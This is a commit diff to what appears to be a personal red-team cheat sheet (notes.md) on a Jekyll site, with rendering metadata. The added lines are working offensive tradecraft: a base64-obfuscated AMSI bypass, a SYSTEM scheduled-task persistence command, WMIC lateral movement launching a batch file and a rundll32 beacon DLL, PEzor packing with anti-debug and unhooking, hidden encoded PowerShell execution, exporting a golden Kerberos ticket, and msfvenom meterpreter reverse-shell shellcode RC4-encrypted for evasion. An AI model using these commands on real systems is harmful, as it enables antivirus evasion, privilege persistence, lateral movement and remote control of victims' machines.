

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from notes.md, in a window 1280 px wide and 1400 px high, scrolled down 2128 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update notes.md

````diff
--- a/notes.md
+++ b/notes.md
@@ -116,7 +116,10 @@
 AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, script file, or operable program.
 ```
 
-
+```powershell
+# Base 64 AMSI bypass
+	[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
+	```
 
 ### 2) Powershell Oneliner
 
@@ -159,6 +162,12 @@
 # PrivEsc
 
 # Persistence
+
+### Schedule Tasks
+
+```cpp
+schtasks /create /ru "SYSTEM" /tn "update" /tr "cmd /c c:\windows\temp\update.bat" /sc once /f /st 06:59:00
+```
 
 ### Classic Startup folder
 
@@ -208,4 +217,46 @@
 
 # Lateral Movement
 
+WMIC Lateral Movement
+
+```cpp
+	wmic /node:"192.168.1.2" process call create "C:\Perflogs\434.bat"
+	WMIC /node:"DC.example.domain" process call create "rundll32 C:\PerfLogs\arti64.dll, StartW"
+```
+
 # Domain Dominance
+
+# Misc & Encoding
+
+PeZOR Packing and Encoding
+
+```cpp
+	PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=10 /root/Desktop/Grunt_Nim.exe -z 2
+```
+
+Cat to base64
+
+```cpp
+	cat file.ps1 | iconv -t utf-16le | base64 -w 0
+	powershell -Sta -Nop -Window Hidden -EncodedCommand <encodedCommand>
+```
+
+Powershell Convert to base64
+
+```cpp
+[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\IEUser\Desktop\golden.kirbi"))
+```
+
+Hex Encode
+
+```
+	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin
+	//cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin
+	xxd -i encmeter.bin
+```
+
+Default MSF bin
+
+```
+	msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Proxy Loading worked!" -f raw > shellcode.bin
+```
````
